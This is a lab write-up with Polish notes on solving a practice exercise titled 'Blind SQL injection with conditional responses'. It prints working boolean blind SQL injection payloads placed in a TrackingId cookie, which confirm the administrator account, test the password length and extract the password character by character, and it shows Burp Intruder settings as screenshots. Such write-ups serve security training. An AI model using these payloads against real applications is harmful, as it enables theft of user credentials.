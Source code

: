 Title: Blind SQL injection with conditional responses
Level: Practitioner
Desc:  This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.
The results of the SQL query are not returned, and no error messages are displayed. But the application includes a Welcome back message in the page if the query returns any rows.
The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.
To solve the lab, log in as the administrator user. 

Weryfikacja składni wstrzyknięcia SQL:
payload: `TrackingId=TM5MCwVsGuorQPJ7' and (SELECT 'a' FROM users LIMIT 1)='a`
![image](https://github.com/user-attachments/assets/896d4902-baf1-48a4-b897-6abb14d67f04)
JEST Welcome

Weryfikacja składni, ale w szczególności istnienia konta administrator w tabeli users:
payload: `TrackingId=TM5MCwVsGuorQPJ7' and (SELECT username FROM users where username='administrator' LIMIT 1)='administrator`
![image](https://github.com/user-attachments/assets/93c45fb3-dd8d-4c89-8370-caf7579b33fd)
JEST Welcome

Weryfikacja długości wyciąganego łańcucha znaków, tutaj hasła:
payload: `TrackingId=TM5MCwVsGuorQPJ7' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>19)='a`
![image](https://github.com/user-attachments/assets/3b1e9c38-2b7c-40f0-9d00-3a681c936cb8)
JEST welcome

Pobieranie znaków z hasła:
payload: `TrackingId=TM5MCwVsGuorQPJ7' and SUBSTRING((SELECT password FROM users where username='administrator'),1,1)='7`
![image](https://github.com/user-attachments/assets/b26c3167-b57f-4d0c-81af-9fec71c894c1)
JEST Welcome

Konfiguracja Intrudera:
Na pobieranie znak po znaku:
![image](https://github.com/user-attachments/assets/b76e9818-d3c9-47e1-a61c-f799b8c33877)
![image](https://github.com/user-attachments/assets/d0de6d4a-8dd5-47b1-bde4-12e53d164ab9)

Na cluster bomb:
![image](https://github.com/user-attachments/assets/ab3fb0cf-c35a-45c7-bc9e-8c60ea6b629d)
![image](https://github.com/user-attachments/assets/d2c514d2-927a-4335-9bf1-a3548025920e)
![image](https://github.com/user-attachments/assets/d9799f90-982f-49ae-81c9-c653d852c9c2)


Results: 
![image](https://github.com/user-attachments/assets/e0c8c863-951f-4bda-884f-0a3e64b22d8f)








